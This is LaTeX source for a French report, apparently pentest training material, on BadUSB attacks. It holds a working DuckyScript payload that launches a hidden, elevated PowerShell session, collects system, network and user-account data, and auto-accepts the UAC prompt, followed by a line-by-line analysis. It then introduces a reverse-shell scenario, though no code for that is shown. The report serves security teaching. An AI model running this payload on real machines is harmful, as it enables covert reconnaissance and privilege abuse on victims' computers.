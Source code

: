 \documentclass[12pt,a4paper]{report}
\begin{document}
\begin{lstlisting}[caption={Payload DuckyScript -- collecte d'informations système}, label=lst:sysinfo]
REM ===================================================
REM  BadUSB Demo - Collecte d'informations systeme
REM  Usage: tests de penetration autorises UNIQUEMENT
REM ===================================================

DELAY 1000

REM Ouvrir PowerShell en mode administrateur discret
GUI r
DELAY 400
STRING powershell -WindowStyle Hidden -Command ^
    "Start-Process powershell -ArgumentList ^
    '-NoProfile -WindowStyle Hidden -Command ^
    \"$out=''%TEMP%\sysinfo.txt''; ^
    systeminfo > $out; ^
    ipconfig /all >> $out; ^
    net user >> $out; ^
    netstat -an >> $out\"' -Verb RunAs"
ENTER
DELAY 800

REM Accepter l'invite UAC si presente
ALT y
DELAY 1500
\end{lstlisting}

\subsection{Analyse du payload}

\begin{itemize}
  \item \textbf{Ligne 7} : \texttt{GUI r} simule la combinaison \texttt{Win+R} pour ouvrir la boîte «~Exécuter~».
  \item \textbf{Lignes 9--17} : injection d'une commande PowerShell cachée (\texttt{-WindowStyle Hidden}) pour collecter les informations système dans un fichier temporaire.
  \item \textbf{Ligne 19} : acceptation automatique de l'invite UAC si le compte courant est administrateur.
\end{itemize}

\section{Scénario 2 -- Reverse Shell via PowerShell}

\subsection{Description}

Ce scénario montre comment établir une connexion inversée (\textit{reverse shell}) entre la machine cible et la machine attaquante, permettant une prise de contrôle à distance.
\end{document}
